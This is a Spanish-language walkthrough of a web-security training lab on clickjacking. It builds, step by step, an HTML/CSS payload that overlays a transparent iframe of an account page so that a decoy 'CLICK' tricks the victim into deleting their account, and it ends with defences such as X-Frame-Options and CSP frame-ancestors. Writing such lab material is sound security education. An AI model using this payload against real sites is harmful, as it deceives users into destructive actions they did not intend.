 # Lab: Basic clickjacking with CSRF token protection

This lab contains login functionality and a delete account button that is protected by a CSRF token. A user will click on elements that display the word "click" on a decoy website.

To solve the lab, craft some HTML that frames the account page and fools the user into deleting their account. The lab is solved when the account is deleted.

You can log in to your own account using the following credentials: `wiener:peter`

`Note`: The victim will be using Chrome so test your exploit on that browser.

![Practitioner](https://img.shields.io/badge/level-Apprentice-green) 

---

Iniciamos el laboratorio y nos encontramos con un blog público:
![image](https://github.com/user-attachments/assets/4ffa4b57-b5df-4487-b5ff-9dda4fa0cea9)

Nosotros sabemos que este laboratorio tiene una funcionalidad de autenticación y que tiene un botón `Delete account` el cual debemos utilizar para que el usuario víctima elimine su cuenta mediante `Clickjacking`.

Nos autenticamos con nuestras credenciales `wiener:peter` y en el dashboard del usuario nos encontramos con el botón `Delete account`:
![image](https://github.com/user-attachments/assets/509e80c1-90ae-4260-b2a0-ecfa62034389)

Entonces la idea es engañar a un usuario para que haga clic en un elemento visible que muestra la palabra `click`, mientras un botón real (`Delete account`) del sitio objetivo se encuentra oculto detrás, embebido en un iframe casi transparente y alineado perfectamente con ese texto.

Accedemos al exploit server del laboratorio, que simula un sitio web alojado por nosotros:
![image](https://github.com/user-attachments/assets/514dc04f-5e9d-4952-91dd-0f2c40cc10fd)

Si hacemos click en `View exploit` seremos capaces de ver el contenido de nuestro sitio web:
![image](https://github.com/user-attachments/assets/2de4b3bc-2917-4c59-821f-231b080acf8f)

Vamos a utilizar un `iframe`, que es un elemento HTML que permite cargar otra página web dentro del documento actual. Ya lo vimos en laboratorios anteriores: el `iframe` incrusta contenido remoto, como si fuera una ventana dentro del sitio atacante.

Vamos a ir haciendo pruebas para analizar cómo va cambiando el código y el resultado que arroja. 

Comenzamos insertando el siguiente código en nuestra página:
```html
<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account"></iframe>
```
Esto genera un cuadro embebido que carga la página especificada en el atributo `src`. Podemos ver visualmente que el contenido del `iframe` corresponde al dashboard del usuario:
![image](https://github.com/user-attachments/assets/c9df01fc-50a8-44f4-8875-eb0d31100bde)

Ahora procedemos a darle estilo al `iframe`:
```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
</style>

<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account"></iframe>

```

Vemos que se agrandó el `iframe`, incluso si acercamos el mouse sobre un elemento vemos que cambia el ícono, lo que nos da la pauta de que tenemos interacción con los elementos, es decir, los botones siguen funcionando por más que sean casi transparentes:
![image](https://github.com/user-attachments/assets/ca7740a5-0311-496b-9583-cd66a5e57d82)


Ahora vamos a agregar un botón:

```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 100px;
    left: 100px;
    z-index: 1;
  }
</style>

<div>click</div>
<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account"></iframe>
```

Nosotros podemos ver el elemento `click`:
![image](https://github.com/user-attachments/assets/e742c0d5-1107-4742-b25d-7f712b948ce4)

La idea ahora es ir probando hasta encontrar la configuración de modo tal que el elemento `click` quede superpuesto al botón `Delete account`. Luego de varias pruebas encontramos que la configuración correcta es la siguiente:
```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 700px;
    opacity: 0.1;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 515px;
    left: 60px;
    z-index: 1;
  }
</style>

<div>CLICK</div>
<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account"></iframe>
```

![image](https://github.com/user-attachments/assets/97c77e35-9026-4ac1-a168-f7ea83709db6)

Ahora procedemos a bajar la transparencia de modo que el `iframe` quede casi imperceptible:
```html
<style>
  iframe {
    position: relative;
    width: 1000px;
    height: 700px;
    opacity: 0.000001;
    z-index: 2;
  }
  div {
    position: absolute;
    top: 515px;
    left: 60px;
    z-index: 1;
  }
</style>

<div>CLICK</div>
<iframe src="https://0aef009e0453d5f282da6b77000a0060.web-security-academy.net/my-account"></iframe>
```
De modo tal que si la víctima visita esta página, verá lo siguiente:
![image](https://github.com/user-attachments/assets/edca2881-3f92-40ca-9583-0aceacf2d34b)

Aunque el texto `CLICK` se ve por encima, el `iframe` tiene un `z-index mayor`, lo que hace que el clic se registre sobre el botón `Delete account` embebido en él.

En el exploit server hacemos click en `Store` y luego en `Deliver exploit to victim` para resolver el laboratorio:
![image](https://github.com/user-attachments/assets/23d7e1cf-3634-4896-a7fc-aef7ddaaa2d1)

---

## ✅ Conclusiones

Este laboratorio demostró cómo una funcionalidad protegida con token CSRF puede seguir siendo vulnerable si no se implementan medidas contra **clickjacking**. Mediante la técnica de superposición visual (UI redressing), logramos que un usuario realice una acción sensible (eliminar su cuenta) sin darse cuenta, al hacer clic en un elemento señuelo visible que en realidad activa un botón oculto dentro de un `iframe`.

A pesar de que el botón requería una acción legítima del usuario y estaba protegido por CSRF tokens, el hecho de permitir que la página sea embebida en un `iframe` sin restricciones hizo posible la explotación.

---

## 🛡️ Recomendaciones

* Utilizar encabezados HTTP que impidan el embebido de la aplicación en iframes:

  ```http
  X-Frame-Options: DENY
  X-Frame-Options: SAMEORIGIN
  Content-Security-Policy: frame-ancestors 'none';
  ```

* Incluir una capa adicional de confirmación para acciones destructivas (por ejemplo, `¿Estás seguro de eliminar tu cuenta?`).

* Evitar confiar únicamente en CSRF tokens como medida de protección si el entorno visual del usuario puede ser manipulado.

* Revisar periódicamente la interfaz web con pruebas de clickjacking en diferentes navegadores.

---

## 📚 Lecciones aprendidas

* **Clickjacking y CSRF no se excluyen:** un token CSRF no protege contra una interacción visual engañosa.

* **La opacidad no anula la funcionalidad:** un botón dentro de un `iframe` casi invisible puede seguir siendo interactuable.

* **El navegador no es defensa suficiente:** Chrome incluye detección de transparencia en iframes, pero esta protección no es confiable ni está presente en todos los navegadores.

* **El orden de apilamiento (`z-index`) y la transparencia (`opacity`) pueden utilizarse para manipular al usuario sin ocultar elementos completamente.**

* Siempre que una aplicación permita ser embebida sin restricción, existe un riesgo real de clickjacking incluso si otras medidas están presentes.

---



